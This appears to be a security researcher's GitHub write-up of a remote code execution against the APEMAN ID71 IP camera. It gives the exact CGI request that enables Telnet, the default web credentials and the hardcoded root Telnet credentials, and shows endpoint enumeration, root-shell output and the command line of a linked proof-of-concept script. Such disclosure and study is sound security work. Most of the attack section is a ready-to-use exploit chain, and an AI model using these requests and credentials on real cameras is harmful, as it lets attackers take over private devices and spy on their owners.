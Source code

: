 ### APEMAN ID71 — RCE

This guide shows how to exploit an endpoint that allows you to enable the Telnet service on the camera using an HTTP CGI request, and then gain RCE over Telnet with known default credentials.

The camera ships with default credentials `admin:888888`. Additionally, if those credentials are changed, you can connect to the UART interface and it will leak the credentials so you can then log in.

While trying multiple exploit methods, I couldn't find any for this camera, so I started reverse engineering it and extracted all CGI endpoints from the binary that runs the camera.

Once I had all the endpoints, I created a Python script to enumerate each endpoint and display its output.

``` 
python makemyday.py --server 127.0.0.1 --port 9999 --findcgi-prefix "" findcgi --wordlist list.txt                          
Found CGI at wifi_scan.cgi?loginuse=admin&loginpas=888888                                                                         
Found CGI at camera_control.cgi?loginuse=admin&loginpas=888888                                                                    
Found CGI at set_users.cgi?loginuse=admin&loginpas=888888                                                                         
Found CGI at set_datetime.cgi?loginuse=admin&loginpas=888888                                                                      
Found CGI at upgrade_firmware.cgi?loginuse=admin&loginpas=888888                                                                  
Found CGI at decoder_control.cgi?loginuse=admin&loginpas=888888                                                                   
Found CGI at camera_control.cgi?loginuse=admin&loginpas=888888                                                                    
Found CGI at get_status.cgi?loginuse=admin&loginpas=888888                                                                        
Found CGI at get_params.cgi?loginuse=admin&loginpas=888888                                                                        
Found CGI at get_camera_params.cgi?loginuse=admin&loginpas=888888                                                                 
Found CGI at get_log.cgi?loginuse=admin&loginpas=888888                                                                           
Found CGI at get_misc.cgi?loginuse=admin&loginpas=888888                                                                          
Found CGI at get_record.cgi?loginuse=admin&loginpas=888888                                                                        
Found CGI at get_record_file.cgi?loginuse=admin&loginpas=888888                                                                   
Found CGI at get_wifi_scan_result.cgi?loginuse=admin&loginpas=888888
....
Found CGI at set_test_auto_upgrade.cgi?loginuse=admin&loginpas=888888
Found CGI at trans_cmd_string.cgi?loginuse=admin&loginpas=888888                                                                  
Found CGI at get_sensor_preset.cgi?loginuse=admin&loginpas=888888 
```

I noticed the `trans_cmd_string` endpoint. The `cmd` parameter caught my attention, so I analyzed the request and response:

```
REQUEST:
GET /trans_cmd_string.cgi?loginuse=admin&loginpas=888888 HTTP/1.1

Host: 10.99.99.151:12925
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
```

```
RESPONSE:
HTTP/1.1 200 OK

Date: Mon Oct  6 00:05:40 2025
Server: GoAhead-Webs
Last-modified: Thu Jan  1 00:00:08 1970
Content-type: text/html
Cache-Control:no-cache
Content-length: 0
Connection: close


```

I then added the parameter `cmd=id` and got this response:

```
GET /trans_cmd_string.cgi?loginuse=admin&loginpas=888888&cmd=id HTTP/1.1

Host: 10.99.99.151:12925
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0

RESPONSE:
HTTP/1.1 200 OK

Date: Mon Oct  6 00:07:17 2025
Server: GoAhead-Webs
...

var cmd=3;
```

Interesting. I searched the Internet for this endpoint and found a [GitHub discussion](https://github.com/themactep/thingino-firmware/issues/612#issuecomment-2803136182) noting that using the following parameters enables Telnet:

```
GET /trans_cmd_string.cgi?loginuse=admin&loginpas=888888&cmd=2101&command=1 HTTP/1.1
```

I tested it, and it worked, the Telnet port opened:

``` 
$ telnet 10.99.99.151                                        
Trying 10.99.99.151...                                           
Connected to 10.99.99.151.                                       
Escape character is '^]'.                                        
(none) login:
```

Because these credentials are publicly known (`vstarcam2017:20170912`), I used them to obtain a root shell:

```bash
telnet 10.99.99.151
Trying 10.99.99.151...
Connected to 10.99.99.151.
Escape character is '^]'.
(none) login: vstarcam2017
Password: 
Welcome to HiLinux.
# id
uid=0(vstarcam2017) gid=0(root) groups=0(root)
```

I created a Python script [RCE_apeman_id71.py](https://github.com/juliourena/APEMAN-Camera-PoCs/blob/main/RCE/RCE_apeman_id71.py) to automate this attack:

```bash
python rce_apeman_id71.py --host 10.99.99.151 --port 12925 --loginuse admin --loginpas 888888 --tn-user vstarcam2017 --tn-pass 20170912 --command "id;ifconfig"
[+] Enabling Telnet via CGI ...
[+] CGI enable Telnet response: HTTP 200
[+] Connecting to Telnet at 10.99.99.151:23 ...

Welcome to HiLinux.
# id;ifconfig
uid=0(vstarcam2017) gid=0(root) groups=0(root)
eth0      Link encap:Ethernet  HWaddr 28:AD:3E:3B:B9:21
          inet addr:10.99.99.151  Bcast:10.99.99.255  Mask:255.255.255.0
          inet6 addr: fe80::2aad:3eff:fe3b:b921/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:1977 errors:0 dropped:1593 overruns:0 frame:0
          TX packets:384 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:102190 (99.7 KiB)  TX bytes:38809 (37.8 KiB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:3 errors:0 dropped:0 overruns:0 frame:0
          TX packets:3 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:3168 (3.0 KiB)  TX bytes:3168 (3.0 KiB)

# exit
```
